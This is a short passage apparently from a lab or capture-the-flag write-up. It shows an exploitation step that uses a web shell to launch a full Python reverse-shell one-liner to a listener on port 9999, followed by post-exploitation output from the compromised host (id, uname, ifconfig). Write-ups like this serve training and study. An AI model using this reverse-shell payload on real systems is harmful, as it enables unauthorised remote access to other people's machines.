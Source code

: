\newpage
## Phase #2: Exploitation
1\. We set up a `netcat` listener and invoke a Python reverse shell:  
``` {.python .numberLines}
nc -nlvp 9999
http://192.168.92.173/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.92.163",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

![writeup.exploitation.steps.1.1](./screenshot01.png)  

![writeup.exploitation.steps.1.2](./screenshot02.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
user6@osboxes> id
uid=1005(user6) gid=1005(user6) groups=1005(user6)
user6@osboxes>  
user6@osboxes> uname
Linux osboxes 4.15.0-45-generic #48-Ubuntu SMP Tue Jan 29 16:28:13 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
user6@osboxes>  
user6@osboxes> ifconfig
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
       inet 192.168.92.173  netmask 255.255.255.0  broadcast 192.168.92.255
       inet6 fe80::2e48:398c:348e:b9c9  prefixlen 64  scopeid 0x20<link>
       ether 00:0c:29:a6:a7:b9  txqueuelen 1000  (Ethernet)
       RX packets 266778  bytes 38129187 (38.1 MB)
```